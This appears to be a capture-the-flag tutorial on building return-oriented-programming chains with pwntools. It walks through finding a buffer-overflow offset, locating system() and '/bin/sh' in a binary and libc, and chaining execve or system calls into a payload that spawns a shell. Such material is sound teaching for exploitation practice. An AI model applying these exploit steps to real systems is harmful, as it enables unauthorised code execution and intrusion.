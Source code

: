 # Building ROPChains With PWNTools

1. Setup the Python script

```python3
from pwn import *   # import pwntools

context.log_level = "debug"   # Debugging information
context.binary = elf = ELF("./vuln")    # Set architecture info
io = process()    # Create a process with the loaded elf
rop = ROP(elf)    # Create the ROP object
```

2. Use GDB (pwndbg) to find the vulnerable buffer/offset to control the EIP/RIP

`cyclic`

3. Find useful functions by disassembling the binary (e.g. system(), usefulFunction(), print_flag(), you get the idea)

```bash
# in GDB
b main
run
search system
search exec
# OR
i functions
disassemble main    # disassemble other functions to find any interesting function calls
```

4. Find addresses of any strings in the binary that are required for the function call

```bash
# In GDB
b main
run
search /bin   # search for strings that contain "/bin" - adjust as needed
```

4.5. Automate searching for strings

```python3
context.binary = elf = ELF('/bin/sh')
libc = elf.libc

elf.address = 0xAA000000
libc.address = 0xBB000000

rop = ROP([elf, libc])

binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)
```

5. Use ROP in pwntools to create a ropchain which can be placed into your payload

```python3
# Using system("/bin/cat flag.txt) as an example
# address of "/bin/cat flag.txt" in the binary: 0x0804a030
rop.system(0x0804a030)
# print(rop.dump())   # prints the 'pretty' view of values with the corresponding instruction
# print(rop.chain())    # prints the chain which can be appended to your payload
```

6. Build your payload

```python3
payload = b""
payload += b"A" * offset
payload += rop.chain()
```

7. Send your payload and get your flag/shell!
